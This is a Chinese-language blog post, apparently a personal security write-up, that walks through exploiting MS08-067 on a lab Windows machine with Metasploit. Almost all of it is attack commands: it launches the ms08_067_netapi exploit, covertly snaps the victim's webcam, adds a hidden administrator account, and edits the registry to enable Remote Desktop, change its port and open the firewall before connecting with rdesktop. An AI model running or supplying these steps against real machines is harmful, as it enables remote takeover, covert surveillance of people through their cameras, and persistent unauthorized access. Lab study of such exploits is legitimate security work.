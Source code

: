 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```


## 0x0 确定攻击者IP和受害者IP

### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
```c
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set lhost 192.168.88.130
    set rhost 192.168.88.139
```
![](https://lcy2218.github.io/images/20210326-3.png)

```c
    run
```

![](https://lcy2218.github.io/images/20210326-4.png)

```c
    ipconfig
```

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

```c
    webcam_list
    webcam_snap
```

![](https://lcy2218.github.io/images/20210326-6.png)

## 0x3 创建用户

```c
    net user lcy 2218 /add
    net localgroup administrators lcy /add  //把lcy加入管理员用户
```

![](/images/20210326-7.png)

## 0x4 开启远程桌面端口以及远程连接

```c
    REG query HKLM\SYSTEM\CurrentControlSet\Controly\Terminal" "Server\WinStations\RDP-Tcp 
    /v PortNumber //查询终端端口
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections 
    /t REG_DWORD /d 00000000 /f //开启XP&2003终端服务
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp 
    /v PortNumber /t REG_DWORD /d 0x7d8 /f   //更改终端端口为2008(0x7d8)默认为3389（0xD3D）
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\

    Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 
    3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f
    //取消xp&2003系统防火墙对终端服务的限制及IP连接的限制
    
    rdesktop -f -a 16 192.168.88.139:3389
    //在另一个终端开启远程桌面
```

![](/images/20210326-8.png)
![](/images/20210326-9.png)